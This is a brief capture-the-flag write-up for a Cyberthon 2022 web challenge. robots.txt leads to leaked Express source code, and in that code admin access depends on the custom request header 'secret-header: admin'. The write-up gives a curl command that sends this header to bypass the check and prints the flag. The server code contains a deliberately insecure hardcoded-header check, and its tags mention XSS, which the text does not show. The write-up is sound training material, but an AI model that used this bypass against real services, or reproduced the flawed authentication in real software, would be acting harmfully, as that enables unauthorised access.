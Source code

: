 ```yaml
---
ai_date: 2025-04-27 05:11:51
ai_summary: Found secret header exploitation for admin access to view source code
ai_tags:
  - http-hdr
  - xss
  - secret
created: 2024-06-11T01:33
updated: 2025-07-14T09:46
---
```


> APOCALYPSE members frequent this server but we dont know what for. Help us find out what its for.
> The URL for this challenge: http://chals.cyberthon22f.ctf.sg:40301/

`http://chals.cyberthon22f.ctf.sg:40301/robots.txt`

```
User-agent: *
Disallow:dev
```

`http://chals.cyberthon22f.ctf.sg:40301/dev` gives us the source code

```js
const path              = require('path');
const express           = require('express');
const router            = express.Router();

router.get('/', (req, res) => {
	secret = req.headers["secret-header"];
    if (secret == "admin"){
    	return res.sendFile(path.resolve('views/admin.html'));
    }
    return res.sendFile(path.resolve('views/index.html'));
});

router.get('/robots.txt', (req, res) => {
    res.type('text/plain');
    res.send("User-agent: *\nDisallow:dev");
});

router.get('/dev', (req, res) => {
	return res.sendFile(path.resolve('dev/source.zip'));
})

module.exports = router;
```

```bash
curl "http://chals.cyberthon22f.ctf.sg:40301/" \
     -H 'secret-header: admin'
```

And we get our flag

```flag
Cyberthon{l0w_ceiling_w4tch_ur_head_a6243746643baf3d}
```